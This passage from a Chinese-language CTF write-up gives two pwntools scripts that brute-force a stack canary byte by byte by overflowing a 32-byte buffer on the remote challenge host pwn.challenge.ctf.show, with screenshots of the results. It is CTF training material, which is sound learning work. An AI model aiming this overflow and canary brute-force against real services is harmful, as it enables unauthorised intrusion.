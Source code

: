    第一次爆破出来是：

   ![image-20240706183936688](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407061839809.png)

   下面爆破第二个：

   ```python
   from pwn import *
   
   # 设置系统架构, 打印调试信息
   # arch 可选 : i386 / amd64 / arm / mips
   context(os='linux', arch='amd64', log_level='debug')
   
   for i in range(0xff):
       p = remote("pwn.challenge.ctf.show",28104)
       # p = process('./pwn')
       # elf = ELF('./pwn')
       p.recvuntil(b"How many bytes do you want to write to the buffer?\n>")
       p.sendline(b'100')
       p.recv()
       payload = b'a'*(32)+int.to_bytes(51)+int.to_bytes(i)
       p.send(payload)
       data = p.recv()
       if b"flag" in  data:
           canary = data
           print(canary,i)
           break
   
   ```

   ![image-20240706184045278](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407061840390.png)

   第三个：

   ```python
   from pwn import *
   
   # 设置系统架构, 打印调试信息
   # arch 可选 : i386 / amd64 / arm / mips
   context(os='linux', arch='amd64', log_level='debug')
   
   for i in range(0xff):
       p = remote("pwn.challenge.ctf.show",28104)
       # p = process('./pwn')
       # elf = ELF('./pwn')
       p.recvuntil(b"How many bytes do you want to write to the buffer?\n>")
       p.sendline(b'100')
       p.recv()
       payload = b'a'*(32)+int.to_bytes(51)+int.to_bytes(54)+int.to_bytes(i)
       p.send(payload)
       data = p.recv()
       if b"flag" in  data:
           canary = data
           print(canary,i)
           break
   ```
